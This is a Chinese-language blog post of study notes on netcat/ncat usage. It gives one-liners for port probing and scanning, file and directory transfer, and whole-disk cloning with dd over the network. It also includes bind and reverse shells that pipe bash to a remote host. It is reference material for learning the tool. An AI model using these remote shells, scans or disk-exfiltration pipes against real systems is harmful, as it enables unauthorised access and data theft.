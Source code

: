 ```yaml
---
layout: post
title: NC（ncat）学习笔记
categories: Security
description: NC（ncat）学习笔记
keywords: nc, ncat
---
```


## 接口探测

```
nc -nv 1.1.1.1 80		##接口探测，发起链接
```
## 文本交互

```
A:nc -l -p 4444
B:nc -vn 1.1.1.1 4444

nc -nv 1.1.1.1 4444 -q 1 		##输出结束1秒后结束链接
```
## 传输文件

```
接收端：nc -lp 4444 > 1.doc
发送端：nc -nv 1.1.1.1 4444 < 1.doc -q 1
or
接收端：nc -nv 1.1.1.1 4444 > 1.doc
发送端：nc -lp 4444 < 1.doc -q 1
```
## 传输目录

```
发送端:tar -cvf - music/ | nc -lp 4444 -q 1
接收端:nc -nv 1.1.1.1 4444 | tar -xvf -
```
## 端口扫描

```
nc -nvz 1.1.1.1 1-65535			##tcp端口扫描
nc -nvzu 1.1.1.1 1-1024			##UPD端口扫描
```

## 远程硬盘克隆

```
A:nc -lp 4444 | dd of=/dev/sda
B:dd if=/dev/sda | nc -nv 1.1.1.1 4444 -q 1
```
## 远程控制

```
正向：
A:nc -lp 4444 -c bash
B:nc 1.1.1.1 4444

反向：
A:nc -lp 4444
B:nc 1.1.1.1 4444 -c bash
```
## ncat限制访问与加密传输

```
ncat -c bash --allow 2.2.2.2 -nvl 4444 --ssl
ncat -nv 1.1.1.1 4444 --ssl
```
